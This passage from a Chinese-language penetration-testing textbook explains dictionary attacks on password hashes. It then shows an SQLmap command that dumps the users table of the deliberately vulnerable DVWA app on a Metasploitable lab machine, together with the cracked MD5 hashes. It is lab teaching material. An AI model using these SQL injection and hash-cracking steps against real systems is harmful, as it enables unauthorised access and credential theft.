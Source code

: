 ![image](img/ch12fig05.jpg)

*图 12-5：SHA-256 哈希函数*

#### ***破解哈希***

我们如何破解一个密码哈希来恢复原始密码呢？安全哈希函数是单向函数，因此我们不能直接反向工程哈希。但并非一切都失去希望；我们只需要聪明一点。

回想一下，每个密码都会生成一个唯一的哈希，因此两个匹配的哈希必须共享相同的明文密码。因此，如果我们想破解一个特定的哈希，我们应该计算许多已知密码的哈希，并将生成的哈希与我们的原始哈希进行比较。如果找到匹配项，我们刚刚计算的明文密码必须与我们正在尝试破解的哈希的明文密码相同。这种攻击方式叫做基于字典的攻击，这也是我们之前用来发现服务器上文件的策略。让我们使用基于字典的攻击来破解 Metasploitable 虚拟机上数据库中的一些密码哈希。

重新打开包含 SQLmap 会话的终端，并使用以下命令从 Damn Vulnerable Web App（DVWA）数据库的用户表中转储用户名和密码。此 SQLmap 命令将执行基于字典的攻击，尝试破解数据库中的密码哈希：

```
sqlmap-shell> -D dvwa -T users -C user,password --dump

do you want to store hashes to a temporary file for eventual further

			 processing with other tools [y/N] y
do you want to crack them via a dictionary-based attack? [Y/n/q] Y

[18:08:22] [INFO] using hash method 'md5_generic_passwd'

Database: dvwa
Table: users

[5 entries]

+---------+---------------------------------------------+

| user    | password                                    |

+---------+---------------------------------------------+

| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |

| gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   |

| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  |

| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  |

| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |

+---------+---------------------------------------------+
```
